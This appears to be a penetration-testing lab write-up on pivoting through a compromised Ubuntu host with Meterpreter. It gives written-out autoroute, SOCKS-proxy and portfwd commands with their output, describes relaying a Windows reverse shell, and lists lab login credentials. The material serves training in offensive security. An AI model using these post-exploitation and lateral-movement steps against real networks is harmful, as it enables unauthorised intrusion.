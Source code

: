 ## Meterpreter Tunneling and Port Forwarding

Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us. In such cases, we can still create a pivot with our Meterpreter session without relying on SSH port forwarding. We can create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port **8080.**

### Pivot Host

IP: 10.129.163.230
Username: ubuntu
Password: HTB_@cademy_stdnt!

### Creating Payload for Ubuntu Pivot Host

![Payload](/Meterpreter-Tunneling-and-Port-Forwarding/images/met-payload.png) 

Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.


### Configuring and Starting the multi / handler

![Listener](/Meterpreter-Tunneling-and-Port-Forwarding/images/listener.png) 

We can copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

![SCP](/Meterpreter-Tunneling-and-Port-Forwarding/images/scp.png) 


### Executing the Payload on the Pivot Host

![Execute](/Meterpreter-Tunneling-and-Port-Forwarding/images/execute.png) 

We need to make sure the Meterpreter session is successfully established upon executing the payload.

### Meterpreter Session Establishment

![Session](/Meterpreter-Tunneling-and-Port-Forwarding/images/session.png) 

We know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP requests, we would want to perform a ping sweep on this network. We can do that using Meterpreter with the ping_sweep module, which will generate the ICMP traffic from the Ubuntu host to the network 172.16.5.0/23.


### Ping Sweep

	[*] Performing ping sweep for IP range 172.16.5.0/23
	[+]     172.16.5.19 host found
	[+]     172.16.5.129 host found
	[*] Post module execution completed

![Ping Sweep](/Meterpreter-Tunneling-and-Port-Forwarding/images/ping-sweep.png) 


### Ping Sweep For Loop on Linux Pivot Hosts

![Bash ps](/Meterpreter-Tunneling-and-Port-Forwarding/images/bash-ping-sweep.png) 


There could be scenarios when a host's firewall blocks ping (ICMP), and the ping won't get us successful replies. In these cases, we can perform a TCP scan on the 172.16.5.0/23 network with Nmap. Instead of using SSH for port forwarding, we can also use Metasploit's post-exploitation routing module socks_proxy to configure a local proxy on our attack host. We will configure the SOCKS proxy for SOCKS version 4a. This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.


### Configuring MSF's SOCKS proxy

![SOCKS](/Meterpreter-Tunneling-and-Port-Forwarding/images/socks.png) 


Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

### Creating Routes with AutoRoute

![Route](/Meterpreter-Tunneling-and-Port-Forwarding/images/route.png) 

	meterpreter > run autoroute -s 172.16.5.0/23

	[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
	[!] Example: run post/multi/manage/autoroute OPTION=value [...]
	[*] Adding a route to 172.16.5.0/255.255.254.0...
	[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.163.230
	[*] Use the -p option to list all active routes


After adding the necessary route(s) we can use the -p option to list the active routes to make sure our configuration is applied as expected.

![Routes](/Meterpreter-Tunneling-and-Port-Forwarding/images/routes.png) 


As you can see from the output above, the route has been added to the 172.16.5.0/23 network. We will now be able to use proxychains to route our Nmap traffic via our Meterpreter session.


### Testing Proxy & Routing Functionality

![Proxy](/Meterpreter-Tunneling-and-Port-Forwarding/images/proxy.png) 


### Port Forwarding

Port forwarding can also be accomplished using Meterpreter's portfwd module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

	meterpreter > help portfwd
	Usage: portfwd [-h] [add | delete | list | flush] [args]


	OPTIONS:

	    -h   Help banner.
	    -i   Index of the port forward entry to interact with (see the "list" command).
	    -l   Forward: local port to listen on. Reverse: local port to connect to.
	    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
	    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
	    -r   Forward: remote host to connect to.
	    -R   Indicates a reverse port forward.


#### Creating Local TCP Relay

	meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
	[*] Forward TCP relay created: (local) :3300 -> (remote) 172.16.5.19:3389

![Local Forward](/Meterpreter-Tunneling-and-Port-Forwarding/images/local-fwd.png) 

### Meterpreter Reverse Port Forwarding

Similar to local port forwards, Metasploit can also perform reverse port forwarding with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host. We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port 1234 to our listener on port 8081.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081. We will also configure our listener to listen on port 8081 for a Windows shell.

![Rev Listener](/Meterpreter-Tunneling-and-Port-Forwarding/images/rev-listener.png) 

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on 172.16.5.129:1234 when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to attack host's ip:8081 that we configured.

### Generating the Windows Payload


![Windows Payload](/Meterpreter-Tunneling-and-Port-Forwarding/images/win-payload.png) 


Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

### Establishing the Meterpreter session


![Root](/Meterpreter-Tunneling-and-Port-Forwarding/images/root.png) 
